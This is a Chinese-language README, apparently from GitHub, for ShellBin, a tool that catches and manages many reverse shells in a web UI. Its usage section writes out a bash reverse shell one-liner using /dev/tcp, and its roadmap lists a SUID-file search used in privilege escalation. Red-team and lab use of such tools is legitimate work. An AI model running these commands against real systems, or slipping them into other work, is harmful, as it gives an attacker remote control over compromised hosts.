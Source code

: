 # ShellBin

[中文文档](README_zh.md)

优雅地接收反向 Shell。

在一个端口上接收多个反向 Shell，并在 Web UI 中进行管理。

借助 [xterm.js](https://xtermjs.org/) 的使用，复杂的命令如 vi、tmux 和 Ctrl-C 可以正常工作（您可能需要获取 pty，并设置正确的 stty 大小。）

![屏幕截图](images/screenshot.png)

## 运行

建议使用来自 DockerHub 的 [docker 镜像](https://hub.docker.com/repository/docker/cwithw/shellbin)。

```bash
docker run -d --name shellbin -p 9998:3000 -p 9999:3001 -e USERNAME=root -e PASSWORD=toor cwithw/shellbin:latest
```

将 `USERNAME` 和 `PASSWORD` 的值更改为您自己的用户名和密码。
您还可以将 `9998`（Web UI 端口）和 `9999`（反向 Shell 端口）更改为您自己的端口。

然后访问 `http://your-ip:9998` 以查看 Web UI。

在端口 `9999` 上接收反向 Shell（`bash -i >& /dev/tcp/your-ip/9999 0>&1`）。

## 开发

```
make backend-environment
make frontend-environment
```

## 构建 Docker 镜像

```
make docker
```
```
make build-docker-image
```


## 安全性与性能

该应用程序处于原型阶段，通常是安全的，但性能未经优化，UI 也不够美观，

欢迎提交拉取请求。

## 路线图

- [x] 具有连接的反向 Shell 列表的 Web UI，并使用 [xterm.js](https://xtermjs.org/) 显示彩色 Shell
- [x] Web UI 需要身份验证
- [x] 接收反向 Shell
- [x] 自动删除断开的连接
- [ ] 时尚的 Web UI
- [ ] 调整终端大小并发送终端事件（目前需要执行 `stty` 命令）
- [ ] 代码片段（例如 `find / -perm 4000 2>/dev/null`）
- [ ] API管理